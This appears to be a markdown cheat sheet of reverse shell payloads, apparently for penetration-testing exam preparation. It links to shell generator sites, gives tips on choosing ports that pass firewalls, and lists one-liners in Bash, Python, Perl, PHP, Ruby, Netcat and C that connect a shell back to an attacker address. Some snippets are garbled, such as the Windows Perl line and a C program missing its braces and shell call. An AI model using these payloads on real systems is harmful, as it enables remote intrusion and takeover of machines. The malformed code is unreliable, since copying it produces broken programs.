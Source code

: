 ## Reverse Shell payload
- https://hackersinterview.com/oscp/reverse-shell-one-liners-oscp-cheatsheet/
- https://www.revshells.com/ #Reverse Shell Generator
- https://highon.coffee/blog/reverse-shell-cheat-sheet/- https://guide.offsecnewbie.com/shells
- Use port 443 as its generally open on firewalls for HTTPS traffic. Sometimes servers and firewalls block non standard ports like 4444 or 1337
- If connections drops or can not be established, try different ports 80,443,8080...
```bash
#Bash
bash -i >& /dev/tcp/x.x.x.x/4444 0>&1
/bin/bash -i > /dev/tcp/x.x.x.x/4444 0<&1 2>&1
/bin/sh -i > /dev/tcp/x.x.x.x/4444 0<&1 2>&1
```

```Python
python -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",4444));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```Perl
perl -e 'use
Socket;$i="x.x.x.x";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))))
{open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh-i");};'

#Perl Windows
perl -MIO -e '$c=new IO :: Socket :: INET(PeerAddr,"x.x.x.x:4444");STDIN->fdopen($c,r);$ ~- >fdopen($c,w);system$_ while<>;'
```

```PHP
php -r '$sock=fsockopen("x.x.x.x",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```Ruby
ruby -rsocket -e'f=TCPSocket.open("x.x.x.x",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

```bash
#Netcat
nc -e /bin/sh x.x.x.x 4444
nc -e cmd.exe x.x.x.x 4444
/bin/sh | nc x.x.x.x 4444
rm -f /tmp/p; mknod /tmp/p p && nc x.x.x.x 4444 0/tmp/p
```

```c
// gcc reverse.c -o reverse

#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int main (int argc, char ** argv)

int scktd;
struct sockaddr_in client;

client.sin_family = AF_INET;
client.sin_addr.s_addr = inet_addr("x.x.x.x"); // attacker IP
client.sin_port = htons(4444); // attacker port

scktd = socket(AF_INET,SOCK_STREAM,0);
connect(scktd,(struct sockaddr *)&client,sizeof(client));
```